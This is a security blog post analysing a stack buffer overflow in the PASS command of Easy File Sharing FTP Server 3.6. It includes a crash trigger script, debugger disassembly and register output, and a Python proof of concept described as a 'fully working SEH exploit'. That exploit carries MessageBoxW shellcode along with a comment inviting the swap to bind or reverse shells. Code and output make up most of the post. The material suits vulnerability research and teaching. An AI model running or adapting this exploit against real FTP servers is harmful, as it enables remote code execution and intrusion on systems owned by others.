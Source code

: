 ```yaml
---
layout: post
title:  "Easy File Sharing FTP Server 3.6 - Stack Buffer Overflow"
date:   2018-09-19 03:39:03 +0700
categories: [security, integer]
---
```



Vulnerability Analysis
----------------------
To trigger the vulnerability, we need to send buffer more than 3000 bytes. Vulnerable part is the "PASS" input. 
  
  reqftp += "A" * 3000
  ... code cut here ...
  s.send("PASS " + reqftp + "\r\n")
  
Example trigger overflow:
  import socket, sys

  if len(sys.argv) <= 1:
    print "Usage: poc.py <target_ip> <target_port>"
    exit(1)
  ip = sys.argv[1]
  port = int(sys.argv[2])
  
  reqftp = "\x2c" + "A" * 3000
  reqftp += "\x42"*30

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  s.recv(1024)
  s.send("USER anonymous\r\n")
  s.recv(1024)
  s.send("PASS " + reqftp + "\r\n")
  s.recv(1024)
  s.close()

However, before sending the buffer to "PASS" input, we need to escaped a character by using "\x2c", example below. 
Further info, https://www.cleo.com/support/byproduct/lexicom/usersguide/ftp_configuration.htm. 

  reqftp = "\x2c" + "A" * 3000

Upon overflowing, it will stop here at this function: 
0046C18C  /$ 56             PUSH ESI
0046C18D  |. 57             PUSH EDI
0046C18E  |. 8B7C24 0C      MOV EDI,DWORD PTR SS:[ESP+C]
0046C192  |. 8BF1           MOV ESI,ECX
0046C194  |. 8B0E           MOV ECX,DWORD PTR DS:[ESI]
0046C196  |. 8B07           MOV EAX,DWORD PTR DS:[EDI]
0046C198  |. 3BC8           CMP ECX,EAX
0046C19A  |. 74 39          JE SHORT fsfs.0046C1D5
0046C19C  |. 8379 F4 00     CMP DWORD PTR DS:[ECX-C],0
0046C1A0  |. 7D 0B          JGE SHORT fsfs.0046C1AD
0046C1A2  |. 83C1 F4        ADD ECX,-0C
0046C1A5  |. 3B0D 78A04900  CMP ECX,DWORD PTR DS:[49A078]            ;  fsfs.0049A07C
0046C1AB  |. 75 06          JNZ SHORT fsfs.0046C1B3
0046C1AD  |> 8378 F4 00     CMP DWORD PTR DS:[EAX-C],0    <--- EIP 

Continuing the execution by pressing "Shift + F9" (Immunity Debugger) will overwrite the EIP, e.g. (Register):
EAX 00000000
ECX 41414141
EDX 777771CD ntdll.777771CD
EBX 00000000
ESP 04279D18
EBP 04279D38
ESI 00000000
EDI 00000000
EIP 41414141

Proof-of-Concept (fully working SEH exploit)
  # Crafted for fun and polishing skillz!
  import sys, socket, struct

  if len(sys.argv) <= 1:
    print "\nEasy File Sharing FTP Server 3.6 Stack Overflow - @zeifan"
    print "\nUsage: poc.py <target_ip> <port>\n"
    exit()
  ip = sys.argv[1]
  port = int(sys.argv[2])  
  
  # Shellcode can be change to any (bind, reverse, etc.)
  # Hello World MessageBoxW Shellcode
  # https://www.exploit-db.com/exploits/37758/
  shellcode = ("\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b" +
    "\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09" +
    "\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d" +
    "\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03" +
    "\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81" +
    "\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04" +
    "\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03" +
    "\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3" +
    "\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68" +
    "\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68" +
    "\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9" +
    "\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65" +
    "\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01" +
    "\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68" +
    "\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68" +
    "\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68" +
    "\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57" +
    "\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c" +
    "\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78" +
    "\x69\x74\x54\x53\xff\xd6\x57\xff\xd0"
  )

  # Escaped character + Buffer 
  reqftp = "\x2c" + "\x41" * 2559

  # 16 bytes SEH
  reqftp += "\xeb\x10\x90\x90"  
  
  # 0x100182d3 : {pivot 8 / 0x08}
  # POP EBP 
  # MOV EAX,1 
  # POP EBX 
  # RETN
  reqftp += struct.pack("<I", 0x100182d3) 
  reqftp += "\x42" * 100
  reqftp += shellcode

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  print "\nMessageBox will pop up!"
  s.recv(1024)
  s.send("USER anonymous\r\n")
  s.recv(1024)
  s.send("PASS " + reqftp + "\r\n")
  s.recv(1024)
  s.close()
  
  
**This type of exploit can be crafted within hour**
